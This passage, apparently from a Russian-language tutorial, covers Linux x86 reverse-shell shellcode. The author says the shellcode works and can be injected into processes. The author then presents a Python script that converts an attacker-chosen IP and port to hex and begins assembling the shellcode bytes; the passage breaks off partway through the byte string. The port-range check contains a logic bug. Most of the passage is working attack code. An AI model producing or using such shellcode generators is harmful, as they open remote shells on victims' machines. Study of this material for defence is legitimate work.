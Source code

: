 Как видите, все работает отлично. Теперь этот shellcode можно использовать и внедрять в процессы.   

Но есть одна проблема. Давайте сделаем IP и порт легко настраиваемыми.    

### настраиваемый IP и порт

Чтобы решить эту проблему, я создал простой Python-скрипт (`super_shellcode.py`):

```py
import socket
import argparse
import sys

BLUE = '\033[94m'
GREEN = '\033[92m'
YELLOW = '\033[93m'
RED = '\033[91m'
ENDC = '\033[0m'

def my_super_shellcode(host, port):
    print (BLUE)
    print ("let's go to create your super shellcode...")
    print (ENDC)
    if int(port) < 1 and int(port) > 65535:
        print (RED + "port number must be in 1-65535" + ENDC)
        sys.exit()
    if int(port) >= 1 and int(port) < 1024:
        print (YELLOW + "you must be a root" + ENDC)
    if len(host.split(".")) != 4:
        print (RED + "invalid host address :(" + ENDC)
        sys.exit()

    h = socket.inet_aton(host).hex()
    hl = [h[i:i+2] for i in range(0, len(h), 2)]
    if "00" in hl:
        print (YELLOW)
        print ("host address will cause null bytes \
        to be in shellcode :(")
        print (ENDC)
    h1, h2, h3, h4 = hl

    shellcode_host = "\\x" + h1 + "\\x" + h2
    shellcode_host += "\\x" + h3 + "\\x" + h4
    print (YELLOW)
    print ("hex host address:")
    print (" x" + h1 + "x" + h2 + "x" + h3 + "x" + h4)
    print (ENDC)

    p = socket.inet_aton(port).hex()[4:]
    pl = [p[i:i+2] for i in range(0, len(p), 2)]
    if "00" in pl:
        print (YELLOW)
        print ("port will cause null bytes \
        to be in shellcode :(")
        print (ENDC)
    p1, p2 = pl

    shellcode_port = "\\x" + p1 + "\\x" + p2
    print (YELLOW)
    print ("hex port: x" + p1 + "x" + p2)
    print (ENDC)

    shellcode = "\\x6a\\x66\\x58\\x6a\\x01\\x5b\\x31"
    shellcode += "\\xd2\\x52\\x53\\x6a\\x02\\x89\\xe1\\xcd"
    shellcode += "\\x80\\x92\\xb0\\x66\\x68"
```